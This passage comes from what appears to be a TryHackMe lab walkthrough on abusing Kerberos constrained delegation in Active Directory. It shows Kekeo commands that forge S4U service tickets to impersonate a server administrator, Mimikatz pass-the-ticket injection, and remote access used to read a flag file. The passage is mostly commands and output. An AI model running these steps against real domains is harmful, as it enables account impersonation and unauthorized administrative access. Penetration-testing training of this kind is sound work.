 **Parameters explained**:

- user - The user who has the constrained delegation permissions.
- domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
- password - The password associated with the svcIIS account. 

Now that we have the TGT for the account that can perform delegation, we can forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1:

```shell-session

kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
Ticket : TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
 [krb-cred] S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
 [krb-cred] E: [00000012] aes256_hmac
 [enc-krb-cred] P: svcIIS @ ZA.TRYHACKME.LOC
 [enc-krb-cred] S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
 [enc-krb-cred] T: [4/30/2022 1:29:00 PM ; 4/30/2022 11:29:00 PM] {R:5/7/2022 1:29:00 PM}
 [enc-krb-cred] F: [40e10000] name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
 [enc-krb-cred] K: ENCRYPTION KEY 18 (aes256_hmac ): 548e500d4ee2f5c61710254ea9dd43e2ce0123026d329c97e512695e2f1777a7
 [s4u2self] t1_trevor.jones
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 172.31.1.101 (auto)
 > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi'
Service(s):
 [s4u2proxy] http/THMSERVER1.za.tryhackme.loc
 > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'
```

**Parameters explained**:

- tgt - We provide the TGT that we generated in the previous step.
- user - The user we want to impersonate. Since t2_ accounts have administrative access over workstations, it is a safe assumption that t1_ accounts will have administrative access over servers, so choose a t1_ account that you would like to impersonate. 
- service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service.

Run the command again, this time for the WSMAN service. Now that we have the two TGS tickets, we can use Mimikatz to import them:

```shell-session
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK

mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

* File: 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi': OK
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt
